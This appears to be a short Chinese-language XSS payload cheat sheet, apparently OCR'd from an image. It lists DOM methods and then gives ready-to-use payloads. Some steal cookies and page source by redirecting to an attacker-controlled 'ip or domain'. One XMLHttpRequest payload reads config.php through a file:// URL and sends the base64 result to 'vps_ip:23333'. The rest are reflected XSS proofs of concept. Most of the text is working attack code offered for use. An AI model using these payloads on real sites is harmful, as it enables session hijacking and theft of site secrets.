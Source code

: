 ```javascript
        </script>
```



## 运用dom技术

```javascript
document.getElementById
document.getElementsByName
document.getElementsByTagName
document.getElementsByTagName("h1")[0].getAttribute("id");
document.getElementsByTagName("h1")[0].setAttribute("value","yourname");
document.createAttribute//结合appendChild利用
document.body.appendChild
```



## 常用的xss语句

读cookie:document.location='http://ip或域名/?'+document.cookie

读源码:document.location='http://ip或域名/?'+btoa(document.body.innerHTML)

### 访问网页

```javascript
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///var/www/html/config.php");
```

### 重定向

` document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);`



## **反射型XSS Poc:**

 

**alert()函数过滤：**

```
<script>alert('xss')</script> 
<script>confirm('xss')</script> 
<script>prompt('xss')</script> 
```

